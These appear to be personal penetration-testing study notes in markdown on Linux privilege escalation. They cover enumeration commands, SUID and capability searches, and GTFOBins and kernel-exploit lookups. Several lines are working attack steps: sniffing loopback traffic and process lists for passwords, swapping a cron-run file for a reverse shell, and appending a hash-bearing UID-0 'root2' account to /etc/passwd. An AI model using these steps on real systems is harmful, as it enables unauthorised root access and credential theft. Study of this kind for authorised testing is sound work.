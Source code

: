 # Enum

## Useful Info
- ``` ls -l /etc/shadow ``` see permission of if can see hashed password 
- ```  id ``` check current user uid, gid (primary group) & groups (other groups)
- ``` cat /etc/passwd ``` lists several user accounts
    ```
        1. Login Name: Indicates the username used for login.
        2. Encrypted Password: This field typically contains the hashed version of the user's password. In this case, the value x means that the entire password hash is contained in the /etc/shadow file (more on that shortly).
        3. UID: Aside from the root user that has always a UID of 0, Linux starts counting regular user IDs from 1000. This value is also called real user ID.
        4. GID: Represents the user's specific Group ID.
        5. Comment:  This field generally contains a description about the user, often simply repeating username information.
        6. Home Folder: Describes the user's home directory prompted upon login.
        7. Login Shell: Indicates the default interactive shell, if one exists.
    ```
- ``` hostname``` OS Type + description (not too useful)
  
- ``` cat /etc/issue ``` | ``` cat /etc/os-release ``` | ```uname -a```OS release & version (better OS Enum)
- ``` ps aux``` show all process 
- ``` ip a ``` list all network card & info in this machine
- ``` route ``` | ``` routel ``` show network routing tables (easy fuck itself localhost services to priv esc)
- ``` ss -anp ``` list all connection
- ``` cat /etc/iptables/rules.v4 ``` need root to see iptables (firewall rules)
  
- ``` ls -lah /etc/cron* ``` list all cron jobs with files and directories 
- ``` crontab -l ``` list the cronjob that current user run | for ``` sudo crontab -l ``` can see jobs run by root
- ``` dpkg -l | rpm ``` list all package 
    ``` 
        Debian-based (Debian, Ubuntu, etc.): dpkg, apt, aptitude
        Red Hat-based (Red Hat Enterprise Linux, CentOS, Fedora, etc.): rpm, yum, dnf
        SUSE-based (openSUSE, SUSE Linux Enterprise, etc.): rpm, zypper
        Arch Linux-based (Arch Linux, Manjaro, etc.): pacman
        Gentoo-based: emerge, Portage
        Slackware-based: pkgtool, slackpkg
        FreeBSD: pkg, FreeBSD Ports
        OpenBSD: pkg_add, OpenBSD Ports
    ```
- ``` find / -writable -type d 2>/dev/null ``` find all writable file of current user
- ``` mount ``` check all mounted filesystems
- ``` cat /etc/fstab ``` check all drives in boot time
- ``` lsblk ``` list all available disk
- ``` lsmod ``` list all drivers installed
- ``` /sbin/modinfo {driver_name} ``` get detail or certain drivers
- ``` find / -perm -u=s -type f 2>/dev/null ``` find all SUID/SGID marked file for ez impersonate permission for everyone
- Can Use ``` strings ``` to read binaries details under ``` /usr/bin ```
- given binary to be executed with root permissions even when launched by a lower-privileged user is called the effective UID (EUID)

## Auto Enum
- file transfer from kali to remote 
   1. remote ``` nc -nlvp 3333 > unix-privesc-check ```
   2. kali ``` nc -nv 192.168.158.214 3333 < unix-privesc-check ```
   3. ``` chmod +x {file_name} ```
- ``` unix-privesc-check standard > output.txt ``` & ignore error
- looks for sussy shit e.g. global writable thing

# Exposed Confidential info
## User trails
- ``` env ``` environ variable
- ``` .bashrc ``` bash config file (this file is fucking hidden on99)
- ``` sudo -l``` list sudoer capabilities to user
- ``` find / -name flag.txt 2>/dev/null ``` find flag.txt in linux

## Service footprints
- ``` watch -n 1 "ps -aux | grep pass" ``` process
- ``` sudo tcpdump -i lo -A | grep "pass" ``` tcp traffic

# Bad File permissions 
## Cron jobss hack
- ``` grep "CRON" /var/log/syslog ``` grep from syslog (messages from various system services and daemons, including the cron daemon)
- change the file to rev shell , ez
## Password authN hack
- unless AD/LDAP, its store in /etc/shadow, write to passwd still works sometimes
- gen 'crypt' hash password ``` openssl passwd {password_plain} ```
- mock user to passwd ``` echo "root2:{password_hashed}:0:0:root:/root:/bin/bash" >> /etc/passwd ```

# Fuck Linux system componenets
### Possible exploit
- GTFO: https://gtfobins.github.io/ 

## Setuid binaries and others
- GTFO: SetUID
- ``` /usr/sbin/getcap -r / 2>/dev/null ``` search misconfigured capabilities e.g. will find perl, ping , or even other binary
- see have ``` cap_setuid+ep```
- go gtfobins look for Capabilities 
- find harder (lookup all bins & PwnKits!!)

### Logic behind
- check if the process is being used by root but normal user trigger ``` ps u -C passwd ```
- e.g ``` passwd ``` will have 1000 0 0 0 = SUID is there | normally all value point to same user
- ``` ls -asl /usr/bin/passwd ``` check permission if have SUID Flag

## Fuck sudo itself
- GTFO: Sudo
- list all current user can use sudo to run 
- brute force those capabilities to PE
- if not success -> check error ``` cat /var/log/syslog | grep {binary_name} ```
- sometimes blocked by apparmor

## Kernal fuck
- search public exploit | sometime need pull file to victim compile and run
- ``` file {binary}``` can see ELF file architecture
- useful search: ``` searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8" ```